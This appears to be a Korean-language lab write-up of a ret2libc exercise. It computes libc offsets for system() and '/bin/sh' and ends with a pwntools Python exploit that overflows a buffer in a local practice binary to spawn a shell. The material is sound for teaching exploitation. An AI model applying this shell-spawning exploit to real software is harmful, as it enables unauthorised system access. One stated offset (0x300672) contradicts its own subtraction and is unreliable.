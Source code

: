 

#### Find the Libc address of the system() function and "/bin/sh"

```c
int system(const char *command)
```

- system() 함수는 파라미터 값으로 실행할 command의 경로를 문자열로 전달받고 있다. 즉, RTL 기법을 사용하여 shell을 실행하기 위해 "/bin/sh" 문자열을 전달해야 한다.

![image](https://user-images.githubusercontent.com/59410565/117536146-64bfa000-b034-11eb-8fca-1af27e22148d.png)

![image](https://user-images.githubusercontent.com/59410565/117536167-8587f580-b034-11eb-88d8-9b0ca32db0dd.png)

- 0xf7e47680(printf function address in libc) - 0xf7dfe000(libc Start Address) = 0x300672(libc Base Address offset)
- 0xf7e38db0(system function address in libc) - 0xf7dfe000(libc Start Address) = 0x3adb0(system function Address offset)
- 0xf7f59b0b("/bin/sh" string address in libc) - 0xf7dfe000(libc Start Address) = 0x15bb0b("/bin/sh" string Address offset)

![image](https://user-images.githubusercontent.com/59410565/117536198-a2242d80-b034-11eb-9134-6e0024c21c43.png)

> find "/bin/sh"가 search "/bin/sh" 였음.

------



#### Exploit

```python
from pwn import *
 
p = process('./ret2libc')
 
p.recvuntil('Printf() address : ')
stackAddr = p.recvuntil('\n')
stackAddr = int(stackAddr,16)
 
libcBase = stackAddr - 0x49680
sysAddr = libcBase + 0x3adb0
binsh = libcBase + 0x15bb0b
 
print hex(libcBase)
print hex(sysAddr)
print hex(binsh)
 
exploit = "A" * (70 - len(p32(sysAddr)))
exploit += p32(sysAddr)
exploit += 'BBBB'
exploit += p32(binsh)
 
p.send(exploit)
p.interactive()
```
